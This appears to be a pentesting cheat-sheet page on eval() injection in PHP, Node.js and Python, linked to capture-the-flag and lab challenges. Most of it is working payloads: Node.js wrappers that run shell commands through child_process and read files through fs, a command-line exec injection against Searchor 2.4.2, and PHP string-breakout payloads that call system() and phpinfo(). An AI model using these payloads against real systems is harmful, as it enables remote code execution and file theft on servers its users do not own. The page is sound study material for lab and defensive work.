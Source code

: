 # Exploiting 'eval' Function

[![xss_js_string](../../../../_badges/ps-lab/xss/xss_js_string.svg)](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

<div class="row row-cols-lg-2"><div>

Almost every language that we encounter during pentesting has an `eval` function that takes a string and execute the code inside.

Such function should be sparingly. Do not pass user input to them.

* PHP Eval Function

```php!
<?php
$payload = "echo 'Hello, World!';";
eval($payload);
```
</div><div>

* JavaScript/Node.js Eval Function

```js!
payload = 'console.log("Hello, World!")'
eval(payload)
```

* Python Eval <small>(or Exec)</small> Function

```js!
payload = "print('Hello, World!')"
eval(payload)
exec(payload)
```
</div></div>

<hr class="sep-both">

## Node.js 'eval' function

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

<div class="row row-cols-lg-2"><div>

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>5)()`
* Normal input fully wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```
</div><div>

It's not always possible to return a string, but if errors are returned, you may use them instead of the usual vector.

```js!
(()=>{throw new Error(require("child_process").execSync("whoami").toString())})()
```

Additional payloads:

```js!
res.end(require('fs').readdirSync('.').toString())
res.end(require('fs').readFileSync('file').toString())
```
</div></div>

<hr class="sep-both">

## Python 'eval' function

<div class="row row-cols-lg-2"><div>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.
</div><div>
</div></div>

<hr class="sep-both">

## PHP 'eval' function

[![php_eval](../../../../_badges/rootme/web_server/php_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)
[![php_eval_advanced_filters_bypass](../../../../_badges/rootme/web_server/php_eval_advanced_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval-Advanced-filters-bypass)

<div class="row row-cols-lg-2"><div>

You can inject a function call such as `phpinfo()` while using comments such as `;//` by remove appended code. If the payload is prepended by a quote, then add a matching quote.

```php!
<?php
$x = '';
eval('$x = "' . $payload . '";');
echo $x;
```

A few possible payloads:

```php!
$payload = '" . phpinfo() . "';
$payload = '" . phpinfo() . ";//';
$payload = '" . system("whoami") . ";//';
```
</div><div>

For payloads and filter bypass, refer to my [PHP Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php).
</div></div>